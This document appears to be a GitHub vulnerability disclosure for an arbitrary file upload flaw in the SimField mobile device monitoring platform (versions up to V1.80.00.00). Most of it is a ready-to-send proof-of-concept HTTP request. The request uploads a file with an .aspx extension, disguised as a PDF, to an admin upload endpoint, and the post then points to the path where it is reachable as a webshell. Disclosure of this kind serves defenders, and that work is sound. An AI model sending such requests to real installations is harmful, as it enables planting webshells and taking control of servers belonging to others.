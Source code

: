 The SimField intelligent mobile device monitoring platform has file upload vulnerabilities

official website:http://www.supcontech.com/

version:<=V1.80.00.00

![WPS图片(1)](https://github.com/RCEraser/cve/assets/131632691/ad67533d-9543-4d50-a52e-913857c9ef5a)

POC
```
POST /admin/reportupload.aspx HTTP/1.1
Host: ip:port
Content-Length: 965
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://192.168.0.108:8099
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/72.0.3626.81 Safari/537.36 SE 2.X MetaSr 1.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygMJy3oA2nbIWLN7e
Referer: http://192.168.0.108:8099/admin/reportupload.aspx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=3c11jcv3fpsoqzwm5rbktlbi; Backdoor=bdbca288fee7f92f2bfa9f7012727740
Connection: close

------WebKitFormBoundarygMJy3oA2nbIWLN7e
Content-Disposition: form-data; name="__VIEWSTATE"

/wEPDwUKLTkyNDAzMDA2Mw9kFgJmD2QWAgIDD2QWAgIBD2QWAgICD2QWAmYPEA8WAh4LXyFEYXRhQm91bmRnZBAVAgnmoLnnm67lvZULwqDCoHwtLTExMTEVAgANL3JlcG9ydC8xMTExLxQrAwJnZ2RkZAf5ferL0OMHx8KFnVEBsJGMeM+8OpV752Us7n/IJjM4
------WebKitFormBoundarygMJy3oA2nbIWLN7e
Content-Disposition: form-data; name="__VIEWSTATEGENERATOR"

02032438
------WebKitFormBoundarygMJy3oA2nbIWLN7e
Content-Disposition: form-data; name="__EVENTVALIDATION"

/wEdAAN/aR1SfvbwoYh6ymN0iwIEa4ehUoCH7o2D6J9YvCyvuyc31agJLrjRVglBIb9oFHZP6yU++K93dpdYNAUs8a3CrZiDfqAY/Wt+ByKN8nJNeA==
------WebKitFormBoundarygMJy3oA2nbIWLN7e
Content-Disposition: form-data; name="ctl00$ContentBodyHolder$selFolder$selFolderStruct"


------WebKitFormBoundarygMJy3oA2nbIWLN7e
Content-Disposition: form-data; name="files[]"; filename="4399.aspx"
Content-Type: application/pdf

just test
------WebKitFormBoundarygMJy3oA2nbIWLN7e--
```
Webshell site ： 
http://192.168.0.108:8099/report/4399.aspx

![WPS图片(2)](https://github.com/RCEraser/cve/assets/131632691/26bcb27c-a353-4a1b-902b-4aca21fb8364)

![WPS图片(3)](https://github.com/RCEraser/cve/assets/131632691/f1e500ce-c9d8-4b0f-98a5-a917514823af)

![WPS图片(4)](https://github.com/RCEraser/cve/assets/131632691/d49e7563-091c-48c8-a6a9-a24a4439759e)

